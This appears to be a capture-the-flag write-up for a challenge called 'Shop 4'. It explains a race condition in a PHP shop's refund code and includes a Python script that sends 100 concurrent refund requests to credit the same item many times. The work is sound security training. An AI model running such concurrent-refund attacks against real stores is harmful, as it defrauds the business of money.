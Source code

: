 # Shop 4 writeup

## First Observations

On the website, after having created a user, we observe that we are able to buy and refund items from the shop.

Looking at the _index.php_ file in the associated code base, we see that there are two allowed _POST_ actions. These are _buy_ and _refund_.

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
   [...]
    elseif ($action === 'buy') {
    [...]
    } elseif ($action === 'refund') {
     [...]
    }
}
```

Looking closer at these two actions we see that during a refund, the account is credied _before_ the item is actually removed from the associated account. This means that there is a small period of time where your account has been credited for a refund, but that you still have the item that you refunded.

Look at this simplified code to see how the refund process works.

```php
elseif ($action === 'refund') {
        if (isset($user_items[$item_id]) && $user_items[$item_id] > 0) {
            if (updateUserbalance($user['id'], $item['price'])) {
                if (removeUserItem($user['id'], $item_id)) {
                    // Successfully refunded item
                }
                else {
                    // Failed to remove item from basket, take back refunded money
                    updateUserbalance($user['id'], -$item['price'])
                }
            }
        }
    }
```

There are many problems with the code snippet above, but one of them is how the function _removeUserItem_ works. The boolean value returned by _removeUserItem_ is _not_ based on whether or not an item got removed, but rather on if the query successfully executed. This means that even if _no_ rows were affected/removed, the query still executed correctly and returns _true_. Hence, regardless of the query executed within the function, we can be rest assured that the refunded money will not be removed again because the _removeUserItem_ function failed.

```php
function removeUserItem($userId, $itemId) {
    $db = getDBConnection();
    $stmt = $db->prepare('DELETE FROM orders WHERE user_id = ? AND item_id = ? LIMIT 1');
    $stmt->bind_param('di', $userId, $itemId);
    return $stmt->execute();
}
```

## Exploit

In order to take advantage of the small time delta where we have gotten credited for a refund, without actually having the item removed, is to spam the server with a bunch of simulataneous requests. This will hopefully cause more than one request to update the credit balance, before the item is removed from our invetnory.

### Exploit Script

This script repeatedly tries to sell the same item multiple times. After each run you will need to manually buy a new item(s), and then run the script again. This will increase your balance until you can buy the flag.

```python
import requests
from concurrent.futures import ThreadPoolExecutor

url = "<url>"
headers = {
    "Host": "<host>",
    "Cookie": "session_token=<session-token>",
    "Content-Length": "20",
    "Content-Type": "application/x-www-form-urlencoded"
}
data = "item_id=1&action=refund"

def send_post_request():
    response = requests.post(url, headers=headers, data=data)
    return response

with ThreadPoolExecutor(max_workers=100) as executor:
    futures = [executor.submit(send_post_request) for _ in range(100)]
    for future in futures:
        print(future.result().text)
```

###### Written by: alexanderkvamme

###### Team: dragonslayerz
